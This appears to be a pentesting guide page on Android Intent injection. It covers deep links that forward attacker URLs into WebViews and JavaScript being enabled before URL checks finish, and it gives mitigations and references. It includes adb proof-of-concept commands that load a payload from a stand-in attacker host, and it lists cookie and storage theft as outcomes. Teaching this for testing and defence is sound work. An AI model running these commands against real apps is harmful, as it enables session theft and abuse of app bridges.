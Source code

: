 # Intent Injection

Intent injection abuses components that accept attacker-controlled Intents or data that is later converted into Intents. Two very common patterns during Android app pentests are:

- Passing crafted extras to exported Activities/Services/BroadcastReceivers that are later forwarded to privileged, non-exported components.
- Triggering exported VIEW/BROWSABLE deep links that forward attacker-controlled URLs into internal WebViews or other sensitive sinks.

## Deep links → WebView sink (URL parameter injection)

If an app exposes a custom scheme deep link such as:

```text
myscheme://com.example.app/web?url=<attacker_url>
```

and the receiving Activity forwards the `url` query parameter into a WebView, you can force the app to render arbitrary remote content in its own WebView context.

PoC via adb:

```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```

Impact
- HTML/JS executes inside the app’s WebView profile.
- If JavaScript is enabled (by default or due to misordered checks), you can enumerate/use any exposed `@JavascriptInterface` objects, steal WebView cookies/local storage, and pivot.

See also:

[[webview-attacks.md]]

## Order-of-checks bug enabling JavaScript

A recurring bug is enabling JavaScript (or other permissive WebView settings) before the final URL allowlist/verification finishes. If early helpers accept your deep link and the WebView is configured first, your final load happens with JavaScript already enabled even if later checks are flawed or too late.

What to look for in decompiled code:
- Multiple helpers that parse/split/rebuild the URL differently (inconsistent normalization).
- Calls to `getSettings().setJavaScriptEnabled(true)` before the last host/path allowlist check.
- A pipeline like: parse → partial validate → configure WebView → final verify → loadUrl.

Mitigations
- Canonicalize once and validate strictly; fail closed.
- Only enable JavaScript after all checks pass and just before loading trusted content.
- Avoid exposing bridges to untrusted origins.

## Other classic Intent injection primitives

- startActivity/sendBroadcast using attacker-supplied `Intent` extras that are later re-parsed (`Intent.parseUri(...)`) and executed.
- Exported proxy components that forward Intents to non-exported sensitive components without permission checks.

## References

- [Android – Access to app-protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Samsung S24 Exploit Chain Pwn2Own 2024 Walkthrough](https://medium.com/@happyjester80/samsung-s24-exploit-chain-pwn2own-2024-walkthrough-c7a3da9a7a26)
- [Pwn2Own Ireland 2024 – Samsung S24 attack chain (whitepaper)](https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)
- [Demonstration video](https://www.youtube.com/watch?v=LAIr2laU-So)


